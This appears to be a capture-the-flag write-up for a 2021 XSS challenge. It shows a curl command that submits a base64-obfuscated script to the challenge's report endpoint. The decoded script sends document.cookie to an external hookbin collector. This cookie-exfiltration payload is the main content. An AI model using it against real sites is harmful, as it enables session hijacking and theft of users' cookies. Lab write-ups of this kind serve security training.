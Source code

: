 # UMCTF2021 - xss

- Write-Up Author: bluebear \[[MOCTF](https://www.facebook.com/MOCSCTF)\]

- Flag:MOCSCTF{easy_xsssssss!}

## **Question:**
xss

[main.py](./src/main.py)

## Write up

---

1. go to https://hookbin.com/ create a post listener
![img](./img/1.png)  
2. post the payload with below  
```shell
curl -X post http://13.75.78.108:31009/report -d "url=http://13.75.78.108:31009/?xss=%3Cscript%3Eeval(atob(%27bmV3IEltYWdlKCkuc3JjPSdodHRwczovL2hvb2tiLmluL2t4VktMZ2tiVk9mck9Pb0xiRWo2Lz8nK2RvY3VtZW50LmNvb2tpZQ==%27))%3C/script%3E"
```  
the script is 
```javascript
eval(atob(btoa("new Image().src='https://hookb.in/kxVKLgkbVOfrOOoLbEj6/?'+document.cookie")))
```
>eval() excute the javascript  
atob() decode base64 strings  
btoa() encode string to base64  
new image() create image in HTML and create get request to bookb.in  

![img](./img/2.png)  

